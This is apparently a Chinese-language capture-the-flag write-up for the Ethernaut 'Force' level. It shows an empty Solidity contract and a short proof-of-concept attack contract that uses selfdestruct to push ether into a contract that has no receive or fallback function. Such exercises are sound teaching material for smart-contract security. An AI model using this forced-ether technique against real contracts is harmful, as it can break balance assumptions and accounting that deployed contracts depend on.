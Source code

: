 #   Level 7 Force
實例地址：`0x24e0B4ECD1598C5c34af3f54a27f952f95642055`

##  題目說明
有些合約就是不想要收你的錢錢 ¯\_(ツ)_/¯

這一關的目標是使合約的餘額大於 0

  可能會有用的資訊

*   fallback 方法
*   有時候攻擊一個合約最好的方法是使用另一個合約
*   閱讀上方的幫助頁面 "Beyond the console" 章節

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

##  POC
該合約沒有 `fallback`、`receive` 可以直接轉錢進去，我們可以寫一個攻擊合約，並存入 1 wei，最後觸發 `selfdestruct` 自毀合約，將錢強行匯入。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack{
    address payable public target;

    constructor(address payable _target) payable{
        target = _target;
    }

    function attack() public{
        selfdestruct(target);
    }
}
```